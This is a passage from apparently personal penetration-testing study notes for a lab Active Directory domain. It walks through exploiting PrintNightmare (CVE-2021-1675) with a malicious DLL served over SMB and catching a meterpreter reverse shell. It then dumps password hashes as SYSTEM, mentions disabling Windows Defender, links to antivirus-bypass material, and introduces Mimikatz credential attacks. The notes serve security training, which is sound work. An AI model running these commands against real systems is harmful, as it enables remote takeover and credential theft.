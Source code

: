 	use multi/handler
	
	set payload windows/x64/meterpreter/reverse_tcp
	
	options
	
	set LPORT=4444 and LHOST={ip}
	
	run

Share the `shell.dll` file

	smbserver.py share `pwd` -smb2support
	
	`pwd` shares the current entire directory

So now we need to have

	python3 CVE-2021-1675.py MARVEL.local/fcastle:Password1@{dcip} '\\{ip}\share\shell.dll' 

We get Windows Defender Error!

Let's turn off defender and try again! Now, we successfully get the shell access :)

	getuid
		Server username: NT AUTHORITY\SYSTEM
	
	hashdump

TF? Windows Defender?

You can Bypass AV, it's all because of `.dll`

Check this Article: https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing_antivirus.html

<div style="page-break-after: always;"></div>
<br>




## Mimikatz

---

### What's that?

- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks! 

- Dumps credentials stored in memory. 

- Just a few attacks: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass the-Ticket, Golden Ticket, Silver Ticket!

### Resources

Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

Special Notes:

- This thing is **flagged** by Microsoft Windows and would **show up like "Unsafe Website"** on Edge (I believe that's the name of their browser) because of Security Issues XD.
